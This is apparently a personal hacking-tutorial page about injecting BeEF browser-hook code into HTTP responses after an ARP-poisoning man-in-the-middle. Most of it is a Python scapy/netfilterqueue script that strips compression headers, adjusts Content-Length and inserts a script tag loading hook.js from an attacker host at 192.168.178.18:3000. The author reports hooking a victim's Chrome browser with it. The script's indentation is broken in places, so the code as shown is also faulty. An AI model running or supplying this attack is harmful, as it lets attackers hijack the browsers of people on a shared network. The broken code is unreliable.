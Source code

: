 ```yaml
---
title: "HTTP code injection & BeEF"
date: 2019-01-09
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


After we become the [mitm][arp_cache_poisoning] we can modify HTTP responses by changing the Raw data on the fly.  

[arp_cache_poisoning]: https://jellepelle.github.io/doc_the_hacks/arp/arp_cache_poisoning/

Since most clients will request [content encoding][http_compression] (by adding a "Accept-Encoding" header), the HTTP response data (scapy.Raw layer) will look like gibberish.  
This is is because the data is GZIPPED most of the time. To get around this we can simply delete this header from the HTTP request!  
[http_compression]: https://en.wikipedia.org/wiki/HTTP_compression

We also need to make sure we change the size of the "Content-Length" value to match with our injected code.   
Otherwise the client browser will not accept the server response.  

In the below example code we then use BeEF on our attacker machine. BeEF is short for The Browser Exploitation Framework. It is a penetration testing tool that focuses on the web browser. The key to success with BeEF is to "hook" a browser. This basically means that we need the victim to visit a vulnerable web app (or as shown in the below code example just by browsing to a HTTP website that has a particular string in the body text). This injected code in the "hooked" browser then responds to commands from the BeEF server. From there, we can do a number of malicious things on the victim's computer.  

On Parrot OS i first opened BeEF Framework and then logged in with the default credentials for BeEF: beef/beef at:
http://localhost:3000/ui/authentication

![beef](beef.jpg)

In the below example we are modifying HTTP responses and injecting the BeEF Hook javascript code into it. Evil stuff :-P  

I successfully tested all this on a Windows 10 victim PC with Chrome browser by visiting a HTML site that had a particular string in the body and replacing this with injected code.

I then verified the browser was hooked in BeEF on my attacker machine. Then i succesfully send a JS alert via BeEF (commands > browser > hooked domain > create alert dialog). 

```python

# !/usr/bin/env python
import netfilterqueue
import scapy.all as scapy
import re

ack_list = []


def set_load(packet, load):
    packet[scapy.Raw].load = load
    del packet[scapy.IP].len
    del packet[scapy.IP].chksum
    del packet[scapy.TCP].chksum

    return packet


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
        load = scapy_packet[scapy.Raw].load
        if scapy_packet[scapy.TCP].dport == 80:
            print("[+] Request")
            load = re.sub("Accept-Encoding:.*?\\r\\n", "", scapy_packet[scapy.Raw].load)

        elif scapy_packet[scapy.TCP].sport == 80:
          print("[+] Response")
                print(scapy_packet.show())
                injection_code = '<script src="http://192.168.178.18:3000/hook.js"></script>'
                load = scapy_packet[scapy.Raw].load.replace('<meta property="og:title" content="Home"/>', injection_code)
                content_length_search = re.search("(?:Content-Length:\s)(\d*)", load)
            if content_length_search and "text/html" in load:
                content_length = content_length_search.group(1)
                new_content_length = int(content_length) + len(injection_code)
                load = load.replace(content_length, str(new_content_length))

        if load != scapy_packet[scapy.Raw].load:
            new_packet = set_load(scapy_packet, load)
            packet.set_payload(str(new_packet))
    packet.accept()


queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```
